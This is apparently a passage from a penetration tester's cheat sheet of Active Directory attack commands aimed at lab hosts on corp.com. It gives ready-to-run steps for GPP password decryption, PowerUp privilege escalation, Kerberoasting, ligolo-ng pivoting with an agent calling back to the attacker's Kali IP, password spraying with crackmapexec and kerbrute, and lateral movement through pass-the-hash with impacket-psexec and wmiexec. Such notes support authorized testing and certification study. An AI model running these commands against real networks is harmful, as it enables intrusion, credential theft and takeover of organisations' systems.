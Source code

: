 			- `Find-DomainShare -CheckShareAccess` (look for `SYSVOL` on DC)
			- DC: `ls \\dc1.corp.com\sysvol\corp.com\`
			- Host: `ls "\\HOST04.corp.com\Important Files\"`
			- `cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml` 
				- `gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"` 
	- PowerUp.ps1 (See Tools)
		- `/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1`
		- `powershell -ep bypass` & `. .\PowerUp.ps1`
		- Find vulnerable services: `Get-ModifiableServiceFile`
	- [Get-spn.ps1](https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1)
		- Look for service accounts with better privileges
```
Add-Type -AssemblyName System.IdentityModel  
  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'ServiceName/DC.domain.nameoffsec'
```
- Run `jaws-enum.ps1`
- `enum4linux -h`
	- Users: `enum4linux -U` or `enum4linux -u user -p password`
# Pivot 
- Look at user data & user history
	- `tree /f /a`
	- `dir /s/b *.log` or `dir /s/b *.txt`
- [ligolo-ng](https://github.com/nicocha30/ligolo-ng) [Quick Start](https://github.com/nicocha30/ligolo-ng/wiki/Quickstart)
	- [Youtube - Ligolo walkthrough](https://www.youtube.com/watch?v=qou7shRlX_s)
	- Download [Agent.zip](https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip) & [Proxy.zip](https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz)
	- Run	
		- Windows: Upload agent.exe
		- Kali
			- `sudo ip tuntap add user kali mode tun ligolo`
			- `sudo ip link set ligolo up`
			- `cd ~/Tools/ligolo_ng` `./proxy -selfcert` (Starts Ligolo)
		- Windows: `agent.exe kaliIP:11601 -retry -ignore-cert`
		- Kali
			- In Ligolo: `session` & `start`
			- Start: `sudo ip route add target.ip.x.x/24 dev ligolo`
# Password Spraying
[HackTricks - Password Spraying](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)
- Spray Passwords through AD (on target): `.\Spray-Passwords.ps1 -Pass Password123! -Admin`
- Spray through SMB shares (from Kali): `crackmapexec smb 192.168.target.ip -u users.txt -p 'Password123!' -d corp.com --continue-on-success` (users.txt is list of known AD users)
	- Crackmap will denote users with local admin priv with "(Pwn3d!)"
- Spray through Kerberos TGT's (kerbrute)(on target): `.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\users.txt "Nexus123!"`
# Lateral Movement
- "Run as" domain user (CMD): `runas /user:domain\username cmd.exe`
	- `net user /domain`
- With NTLM Hash
	- From Kali: `/usr/bin/impacket-wmiexec -hashes :USERNTLMHASHF84D7A70E2EB3B9F05C425E username@192.168.xx.xxx`
	-  From Kali: `impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.xx.xxx`
- With creds
	- `./PsExec64.exe -i  \\HOST04 -u domain\tgtuser -p Password123! cmd`